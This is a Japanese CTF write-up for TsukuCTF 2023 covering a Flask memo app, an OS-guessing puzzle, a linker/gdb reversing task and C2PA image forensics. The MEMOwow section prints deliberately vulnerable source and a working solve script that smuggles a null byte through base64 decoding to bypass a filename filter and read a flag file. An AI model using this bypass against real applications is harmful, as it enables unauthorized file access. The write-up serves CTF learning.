


# TsukuCTF 2023 Writeup

TsukuCTF 2023（<https://ctftime.org/event/2034>）に参加しました。  
土, 09 12月 2023, 03:20 UTC — 日, 10 12月 2023, 09:00 UTC

0nePaddingというチームで参加して、13位でした。  
OSINT中心のCTFでOSINTの問題数がかなりありました。（30問くらい?）  
Webは一問解けませんでしたが、いろんな問題があったので楽しかったです。



<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [web](#web)
  - [MEMOwow](#memowow)
- [misc](#misc)
  - [what_os](#what_os)
  - [build_error](#build_error)
  - [content_sign](#content_sign)

<!-- /code_chunk_output -->

## web


### MEMOwow

496 points / 21 solves

シンプルなメモ帳アプリ。  
メモIDの管理でBase64が使われています。

- app.py

```py
import base64
import secrets
import urllib.parse
from flask import Flask, render_template, request, session, redirect, url_for, abort

SECRET_KEY = secrets.token_bytes(32)

app = Flask(__name__)
app.secret_key = SECRET_KEY


@app.route("/", methods=["GET"])
def index():
    if not "memo" in session:
        session["memo"] = [b"Tsukushi"]
    return render_template("index.html")

<SNIP>

@app.route("/write", methods=["POST"])
def write_post():
    if not "memo" in session:
        return redirect(url_for("index"))
    memo = urllib.parse.unquote_to_bytes(request.get_data()[8:256])
    if len(memo) < 8:
        return abort(403, "これくらいの長さは記憶してください。👻")
    try:
        session["memo"].append(memo)
        if len(session["memo"]) > 5:
            session["memo"].pop(0)
        session.modified = True
        filename = base64.b64encode(memo).decode()
        with open(f"./memo/{filename}", "wb+") as f:
            f.write(memo)
    except:
        return abort(403, "エラーが発生しました。👻")
    return render_template("write_post.html", id=filename)


@app.route("/read", methods=["POST"])
def read_post():
    if not "memo" in session:
        return redirect(url_for("index"))
    filename = urllib.parse.unquote_to_bytes(request.get_data()[7:]).replace(b"=", b"")
    filename = filename + b"=" * (-len(filename) % 4)
    if (
        (b"." in filename.lower())
        or (b"flag" in filename.lower())
        or (len(filename) < 8 * 1.33)
    ):
        return abort(403, "不正なメモIDです。👻")
    try:
        filename = base64.b64decode(filename)
        if filename not in session["memo"]:
            return abort(403, "メモが見つかりません。👻")
        filename = base64.b64encode(filename).decode()
        with open(f"./memo/{filename}", "rb") as f:
            memo = f.read()
    except:
        return abort(403, "エラーが発生しました。👻")
    return render_template("read_post.html", id=filename, memo=memo.decode())
<SNIP>
```

フラグは、`<app>/memo/flag`に書かれています。  
ソースコードを見ると、`POST /read`をうまく使うことでフラグを読みだせそうです。  
ポイントは以下の3点と思われます。

1. filenameチェック

    ```py
    if (
        (b"." in filename.lower())
        or (b"flag" in filename.lower())
        or (len(filename) < 8 * 1.33)
    ):
        return abort(403, "不正なメモIDです。👻")
    ```

1. セッションチェック

    ```py
    filename = base64.b64decode(filename)
    if filename not in session["memo"]:
        return abort(403, "メモが見つかりません。👻")
    ```

1. ファイル取得

    ```py
    filename = base64.b64encode(filename).decode()
    with open(f"./memo/{filename}", "rb") as f:
        memo = f.read()
    ```

ローカル上でいろいろ試していると、リクエストパラメータの`memoid`に以下の値を入れることで、`2. セッションチェック`以外はうまく動作させることができました。  
Base64デコード時に使えない文字種（今回は`\x00`）は無視されるようです。

```text
memoid=////////f%00lag
```

あとは、`2. セッションチェック`をどうにかする方法を考えます。

`session["memo"]`には、`POST /write`を使うことで値を追加できます。  
該当箇所の`session["memo"].append(memo)`では最小文字数の制限はあるものの、ユーザの入力（`content`パラメータ）をそのまま格納しているため、任意の値を入れることができるようです。  
（Base64の処理でエラーが発生しても、session["memo"]には値が追加されます。）

従って、`content`パラメータには、`////////f%00lag`をBase64エンコードした値を入れれば良さそうです。

```py
>>> base64.b64decode('////////f\x00lag')
b'\xff\xff\xff\xff\xff\xff~V\xa0'

# \x00は無視されるっぽい
>>> base64.b64decode('////////f\x00lag')
b'\xff\xff\xff\xff\xff\xff~V\xa0'
```

後は、実行するだけです。

- solve.py

```py
#!/usr/bin/env python3
import re
import requests

url = 'http://133.130.100.34:31415/'
session = requests.Session()
session.get(url)
session.post(url + 'write', data={'content': b'\xff\xff\xff\xff\xff\xff\x7e\x56\xa0'})
res = session.post(url + 'read', data={'memoid': b'////////f\x00lag'})
print(re.search(r'TsukuCTF23{.*}', res.text).group())
```

- Flag

```text
TsukuCTF23{b45364_50m371m35_3xh1b175_my573r10u5_b3h4v10r}
```

## misc



### what_os

201 points / 174 solves

以下のようなコマンド実行履歴が与えられ、実行しているOSを答える問題。

```sh
login: root
root
# ls -al
total    8
 41 sdrwr-  7 root     70 Jan  1 00:00:00 .
 41 sdrwr-  7 root     70 Jan  1 00:00:00 ..
 43 sdrwr-  2 root    630 Jan  1 00:00:00 bin
 42 sdrwr-  2 root    250 Jan  1 00:00:00 dev
104 sdrwr-  2 root    110 Jan  1 00:00:00 etc
114 sdrwrw  2 root    140 Jan  1 00:00:00 tmp
 41 sdrwr-  9 root    100 Jan  1 00:00:00 usr
# chdir etc
<SNIP>
```

最初はAIXとかの製品名まで答える必要があるのかと思いましたが、Unixで正解でした。

- Flag

```text
TsukuCTF23{Unix}
```

### build_error

476 points / 50 solves

3つのファイルが与えられ、makeしてビルドしたプログラムを実行すればフラグが得られるという問題。  
FlagフォーマットはTsukuCTF23{n桁の整数}とのこと。

- 与えられるファイル
  - Makefile
  - main.o
  - one.o

Makefileは以下のようになっていました。  
特段おかしくはなさそうです。

```makefile
.PHONY: all

all:main.o one.o
	$(CC) main.o one.o ab.o -no-pie
```

ただし、いざmakeすると以下のようなエラーが出ました。

```sh
$ make
cc main.o one.o -no-pie
/usr/bin/ld: main.o: in function `main':
main.c:(.text+0x8b): undefined reference to `a'
/usr/bin/ld: main.c:(.text+0x92): undefined reference to `b'
collect2: error: ld returned 1 exit status
make: *** [Makefile:4: all] Error 1
```

どうやら、`a`や`b`という変数/関数の定義がないようです。  
空の変数を定義したab.cを作成してMakefileを編集します。

- ab.c

```c:ab.c
int a = 0;
int b = 0;
```

- Makefile

```makefile
.PHONY: all

all:main.o one.o
	$(CC) main.o one.o ab.o -no-pie
```

以下のコマンドを実行することで、ビルドが成功します。

```sh
cc -c ab.c
make
```

後は実行するだけなのですが、実行すると以下のようなメッセージが出力されます。

```sh
$ ./a.out
please retry
```

Ghidraでa.outをデコンパイルすると、以下のようなコードとなりました。

```c
undefined8 main(void)

{
  int local_34;
  long local_30;
  long local_28;
  long local_20;
  
  local_30 = 0xc;
  local_28 = 0xb;
  local_20 = 0x4b;
  one_init();
  for (local_34 = 0; local_34 < local_28; local_34 = local_34 + 1) {
    if (local_34 < local_30) {
      local_20 = local_20 + 1;
    }
    if (local_20 < local_34) {
      local_28 = local_28 + 1;
    }
    local_30 = local_30 + 1;
  }
  local_20 = local_20 + local_30 + local_28;
  if (local_20 == c + _a + _b) {
    printf("flag is %ld\n",local_20);
  }
  else {
    puts("please retry");
  }
  return 0;
}
```

何らかの計算結果が`c + _a + _b`と一致しているかを見ているようです。  
そのため、if分岐にブレークポイントを貼って、local_20の値がわかれば良さそうです。

```sh
$ gdb ./a.out
<SNIP>
gdb-peda$ b *0x4011e1
Breakpoint 1 at 0x4011e1
gdb-peda$ r
Starting program: /home/salt/TsukuCTF/builderror/a.out 
[----------------------------------registers-----------------------------------]
RAX: 0xcb1290abf43c203c 
RBX: 0x4012e0 (<__libc_csu_init>:       endbr64)
RCX: 0x4012e0 (<__libc_csu_init>:       endbr64)
RDX: 0xcb1290abf43c1fe6 
RSI: 0x7fffffffdc08 --> 0x7fffffffdec7 ("/home/salt/TsukuCTF/builderror/a.out")
RDI: 0x1 
RBP: 0x7fffffffdb10 --> 0x0 
RSP: 0x7fffffffdae0 --> 0xbf7fb42e8 
RIP: 0x4011e1 (<main+171>:      cmp    QWORD PTR [rbp-0x10],rax)
R8 : 0x0 
R9 : 0x7ffff7fe0d60 (<_dl_fini>:        endbr64)
R10: 0x7ffff7ffcf68 --> 0x6ffffff0 
R11: 0x202 
R12: 0x401050 (<_start>:        endbr64)
R13: 0x7fffffffdc00 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4011d6 <main+160>: add    rax,rdx
   0x4011d9 <main+163>: mov    QWORD PTR [rbp-0x8],rax
   0x4011dd <main+167>: mov    rax,QWORD PTR [rbp-0x8]
=> 0x4011e1 <main+171>: cmp    QWORD PTR [rbp-0x10],rax
   0x4011e5 <main+175>: je     0x401204 <main+206>
   0x4011e7 <main+177>: mov    rax,QWORD PTR [rbp-0x10]
   0x4011eb <main+181>: mov    rsi,rax
   0x4011ee <main+184>: lea    rax,[rip+0xe0f]        # 0x402004
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdae0 --> 0xbf7fb42e8 
0008| 0x7fffffffdae8 --> 0x17 
0016| 0x7fffffffdaf0 --> 0xb ('\x0b')
0024| 0x7fffffffdaf8 --> 0x56 ('V')
0032| 0x7fffffffdb00 --> 0x78 ('x')
0040| 0x7fffffffdb08 --> 0xcb1290abf43c203c 
0048| 0x7fffffffdb10 --> 0x0 
0056| 0x7fffffffdb18 --> 0x7ffff7de7083 (<__libc_start_main+243>:       mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011e1 in main ()
gdb-peda$ x/x $rbp-0x10
0x7fffffffdb00: 0x0000000000000078
```

`78`は16進数で`120`なので、これがフラグの値のようです。

- Flag

```text
TsukuCTF23{120}
```

- 余談

もしかすると、`objdump -d prog.o`で逆アセンブルされた結果を見るだけでも解けるのかもです。

### content_sign

481 points / 45 solves

ある署名技術が使われている画像ファイルが与えられるので、改変前の画像を復元する問題。  
Flag形式はTsukuCTF23{<一個前に署名した人の名前>&<署名した時刻(ISO8601拡張形式)>}とのこと。  
この署名技術は知らなかったので、勉強になりました。  

最初に、`binwalk -e signed_flag.png`を試すと改変前の画像は見つけられたのですが、署名した人の名前と時刻がわからなかったため他の方法を探しました。

次に、`exiftool signed_flag.png`を試すと、以下のような結果が得られました。

```sh
$ exiftool signed_flag.png 
ExifTool Version Number         : 11.88
File Name                       : signed_flag.png
Directory                       : .
File Size                       : 9.4 MB
File Modification Date/Time     : 2023:12:09 17:22:25+09:00
File Access Date/Time           : 2023:12:09 17:22:25+09:00
File Inode Change Date/Time     : 2023:12:09 17:22:25+09:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 3024
Image Height                    : 4032
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Pixels Per Unit X               : 3827
Pixels Per Unit Y               : 3827
Pixel Units                     : meters
Title                           : PDF Creator
Author                          : PDF Tools AG
Description                     : http://www.pdf-tools.com
Image Size                      : 3024x4032
Megapixels                      : 12.2
```

PDF Toolsで署名されているのかと思いましたが、いまいちよくわからなかったです。  
そこで、ダメ元で`strings`を試すと、以下のような結果が得られました。

```sh
$ strings signed_flag.png | grep -E '......' | head -n50
IrcaBX
Irjumb
jumdc2pa
Gjumdc2ma
urn:uuid:d67f9244-8583-43d2-bdb6-12082bbb76e7
fSjumb
)jumdc2as
c2pa.assertions
2jumd@
c2pa.thumbnail.claim.png
image/png
4nIDATx
GDDfffVUUUUwwwww
twwwwWWUUUUffFFD
LfWwuwwO
x~vwwy
ivww9~
x:vxi>
Njumdjson
stds.schema-org.CreativeWork
xjson{"@context":"https://schema.org","@type":"CreativeWork","author":[{"@type":"Person","name":"TSUKU4_IS_H@CKER"}]}
&jumdcbor
c2pa.actions
gactions
factionkc2pa.openedhmetadata
mreviewRatings
kexplanationy
dcodelc2pa.unknownevalue
>jumdcbor
my.assertion
gany_tagy
TsukuTsukuTsukuTsukuTsukuTsuku
(jumdcbor
c2pa.hash.data
jexclusions
estart
!flength
3dnamenjumbf manifestcalgfsha256dhashX C
$jumdc2cl
c2pa.claim
hdc:titlemTsukuctf_20XXidc:formatiimage/pngjinstanceIDx,xmp:iid:e18e08ca-8259-4226-988e-7ed2f58e1010oclaim_generatorx'CanUseeMe c2patool/0.7.0 c2pa-rs/0.28.3tclaim_generator_info
isignaturex
self#jumbf=c2pa.signaturejassertions
curlx3self#jumbf=c2pa.assertions/c2pa.thumbnail.claim.pngdhashX k
j$:/~Mi
curlx7self#jumbf=c2pa.assertions/stds.schema-org.CreativeWorkdhashX 
curlx'self#jumbf=c2pa.assertions/c2pa.actionsdhashX q
curlx'self#jumbf=c2pa.assertions/my.assertiondhashX 
curlx)self#jumbf=c2pa.assertions/c2pa.hash.datadhashX ]
'calgfsha256
```

`TSUKU4_IS_H@CKER`や`c2patool`といった怪しい文字列が見つかりました。  
`c2patool`で検索すると、問題の画像にはC2PAという署名技術が使われていることがわかりました。

`c2patool`で中身を確認することができるようです。
<https://github.com/contentauth/c2patool>

```sh
$ c2patool -o a signed_flag.png 
Manifest report written to the directory "a"
```

```sh
$ cd a
$ tree
.
├── manifest_store.json
├── urn_uuid_632a603d-06bf-4660-ac5a-e94f41f61040
│   └── c2pa.assertions
│       └── c2pa.thumbnail.claim.jpeg
└── urn_uuid_d67f9244-8583-43d2-bdb6-12082bbb76e7
    └── c2pa.assertions
        └── c2pa.thumbnail.claim.png

4 directories, 3 files
```

`manifest_store.json`に、署名した人の名前と時刻が書いてありました。

- Flag

```text
TsukuCTF23{TSUKU4_IS_H@CKER&2023-12-08T13:00:26+00:00}
```
